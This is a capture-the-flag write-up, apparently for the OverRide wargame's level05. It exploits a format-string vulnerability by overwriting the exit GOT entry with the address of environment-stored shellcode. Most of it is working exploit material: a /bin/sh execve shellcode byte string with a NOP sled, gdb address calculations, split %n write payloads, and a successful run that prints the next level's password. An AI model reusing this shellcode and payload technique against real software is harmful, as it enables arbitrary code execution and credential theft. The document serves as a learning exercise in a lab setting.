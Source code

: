 
fuzzing phase

```
level05@OverRide:~$ ./level05
ssss
ssss

obiously some format string here

level05@OverRide:~$ ./level05
%p %p %p

level05@OverRide:~$ (python -c 'print "AAAA" + " %p " * 10') | ./level05
aaaa 0x64  0xf7fcfac0  0xf7ec3af9  0xffffd6bf  0xffffd6be  (nil)  0xffffffff  0xffffd744  0xf7fdb000  0x61616161

level05@OverRide:~$ (python -c 'print "AAAA" + " %10$p "') | ./level05
aaaa 0x61616161
```

lets jump into jdb 

```
   0x08048507 <main+195>:	call   0x8048340 <printf@plt>
   0x0804850c <main+200>:	movl   $0x0,(%esp)
   0x08048513 <main+207>:	call   0x8048370 <exit@plt>
```   
   its GOT obviously

```
call   0x8048370 <exit@plt>

(gdb) x 0x8048370
   0x8048370 <exit@plt>:	jmp    *0x80497e0
```

```
export shellcode=$(python -c 'print "\x90" * 300 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"')
```

```
x/600wx $esp
0xffffde60:	0x90909090	0x90909090	0x90909090	0x90909090


(gdb) p 0x80497e0  = 134518752
(gdb) p 0xffffde60 - 4 = 4294958684

```

```
(python -c 'print "\x08\x04\x97\xe0"[::-1] + "%4294958684d%10$n"' ; cat) | ./level05 > /dev/null
id 1>&2
```

mmm smthg wrong

lets debug the assembly

```

=> 0x8048466 <main+34>:	movl   $0x64,0x4(%esp)
   0x804846e <main+42>:	lea    0x28(%esp),%eax
   0x8048472 <main+46>:	mov    %eax,(%esp)
   0x8048475 <main+49>:	call   0x8048350 <fgets@plt>
   
buffer of size 100 stored at esp + 0x28
```
```
0x08048495 <+81>:	cmp    $0x40,%al

0x080484a7 <+99>:	cmp    $0x5a,%al
```
The code checks if the character is less than or equal to 0x40, which corresponds to '@' in ASCII,
and if it is greater than 0x5a, which corresponds to 'Z' in ASCII. If the character is within this range,
the code jumps to the main+135 address, which indicates that the input is invalid.

 0x080484cb <+135>:	addl   $0x1,0x8c(%esp)

```
'A' 0x41 65    XOR     32

01000001 = 65 = 'A'
XOR
00100000 = 32

01100001 = 97 = 'a'

python3 -c "print(65 ^ 32)"
97
```

```
level05@OverRide:~$ (python -c 'print "AAAA" + "BBBB" " %10$p %11$p"') | ./level05
aaaabbbb 0x61616161 0x62626262
```
the addresses in the stack are as follows
```
(gdb) x/900 $esp
0xffffd3c0
0xffffd3d0
0xffffd3e0
```
p 0xffffd3c0 = 4294955968

too long values, which results to negative value in signed 2's complement (-11328)

so we need to split the value if we want to properly override exit.GOT 

```
shellAddr = 0xMsbLsb
 
Lsb - 4 - 4 (already printed 2 addr)
Msb - Lsb = 0xffff - Lsb

exmpl:

0xffffdc59

(gdb) p 0xdc59 - 8 = 56401
(gdb) p 0xffff - 0xdc59 = 9126
```

```
(gdb) x/900 $esp

0xffffdd00:	0x90909090	0x90909090	0x90909090	0x90909090

(gdb) p 0xdd00 - 8        = 56568
(gdb) p 0xffff - 0xdd00   = 8959


level05@OverRide:~$ (python -c 'print "\x08\x04\x97\xe0"[::-1] + "\x08\x04\x97\xe2"[::-1] + "%56568d%10$n%8959d%11$n"' ; cat) | ./level05 > /dev/null
whoami 1>&2
level06
pwd 1>&2
/home/users/level05
cat /home/users/level06/.pass 1>&2
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq

```














